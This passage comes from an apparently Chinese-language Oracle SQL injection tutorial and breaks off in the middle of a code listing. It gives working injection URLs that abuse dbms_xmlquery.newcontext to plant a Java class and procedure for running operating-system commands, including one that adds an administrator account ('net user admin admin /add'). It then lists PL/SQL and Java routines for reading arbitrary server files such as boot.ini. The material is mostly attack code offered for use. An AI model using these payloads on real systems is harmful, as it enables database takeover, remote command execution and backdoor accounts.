 ```
web: http://www.hellove.net/hellove.php?id=123 and (select dbms_xmlquery.newcontext('declare PRAGMA AUTONOMOUS_TRANSACTION;  
begin execute immediate ''create or replace and resolve java source named JAVACMD as import java.lang.*;import java.io.*;public  
class JAVACMD{public static void execmd(String command) throws IOException{Runtime.getRuntime().exec(command);}} ''; commit;  
end;') from dual) is not null

web: http://www.hellove.net/hellove.php?id=123 and (select dbms_xmlquery.newcontext('declare PRAGMA AUTONOMOUS_TRANSACTION;  
begin execute immediate ''create or replace procedure MYJAVACMD(command in varchar) as language java name  
''''JAVACMD.execmd(java.lang.String)''''; ''; commit;end;') from dual) is not null

web :http://www.hellove.net/hellove.php?id=123 and (select dbms_xmlquery.newcontext('begin myjavacmd(''net user admin admin /add'')  
;commit;end;') from dual) is not null 
```

由于用了 dbms_xmlquery.newcontext 之后，代码就惨不忍睹了，下面几篇就不结合 dbms_xmlquery.newcontext 来使用了，反正都懂的 :)

**0x4 文件系统**

下面我们将利用 pl/sql 来读取文件，其实获取 dba 权限之后，怎么样对系统进行操作完全就是个人 pl/sql 或 java 水平的体现

```
create or replace procedure read_file(dirname varchar2,fname varchar2) as  
FD utl_file.file_type;  
buffer varchar2(200);  
begin  
execute immediate 'create or replace directory rw_file as '''||dirname||'''';  
FD := utl_file.fopen('RW_FILE',fname,'r');  
dbms_output.enable(100000);  
loop  
sys.utl_file.get_line(FD,buffer);  
dbms_output.put_line(buffer);  
end loop;  
execute immediate 'drop directory rw_file';

exception  
when NO_DATA_FOUND then  
dbms_output.put_line('---|---|---|file end!---|---|---|---|');  
when others then  
dbms_output.put_line('please check your file');  
end read_file;  
/  
exec read_file('c:\','boot.ini'); 
```

上面是 PL/SQL 代码来读取文件，下面是利用 JAVA 来读取文件内容

```
create or replace and compile java source named javareadfile as  
import java.lang.*;  
import java.io.*;  
public class javareadfile  
{  
public static void readfile(String filename) throws IOException  
{  
FileReader f = new FileReader(filename);  
BufferedReader fr = new BufferedReader(f);  
String text = fr.readLine();  
while(text != null)  
{  
System.out.println(text);  
text = fr.readLine();  
```